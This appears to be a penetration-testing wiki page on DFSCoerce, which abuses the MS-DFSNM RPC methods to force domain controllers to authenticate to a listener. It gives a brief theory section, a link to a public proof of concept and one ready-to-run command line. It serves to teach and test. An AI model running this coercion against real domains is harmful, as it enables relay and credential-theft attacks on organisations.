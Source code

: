```yaml
---
authors: ShutdownRepo
---
```


# MS-DFSNM abuse (DFSCoerce)

## Theory

MS-DFSNM is Microsoft's Distributed File System Namespace Management protocol. It provides an RPC interface for administering DFS configurations ([docs.microsoft.com](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979)) and is available as an RPC interface. That interface is available through the `\pipe\netdfs` SMB named pipe.

In mid-2022, [Filip Dragovic](https://twitter.com/filip_dragovic) demonstrated the possibility of abusing the protocol to coerce authentications. Similarly to other MS-RPC abuses, this works by using a specific method relying on remote address. In this case (as of July 6th, 2022), the following methods were detected vulnerable: `NetrDfsRemoveStdRoot` and `NetrDfsAddStdRoot`. It is worth noting this coercion method only works against domain controllers.

## Practice

The following Python proof-of-concept ([https://github.com/Wh04m1001/DFSCoerce](https://github.com/Wh04m1001/DFSCoerce)) implements the `NetrDfsRemoveStdRoot` and `NetrDfsAddStdRoot` methods.

```bash
dfscoerce.py -d "domain" -u "user" -p "password" LISTENER TARGET
```

## Resources

[https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979)

[https://github.com/Wh04m1001/DFSCoerce](https://github.com/Wh04m1001/DFSCoerce)
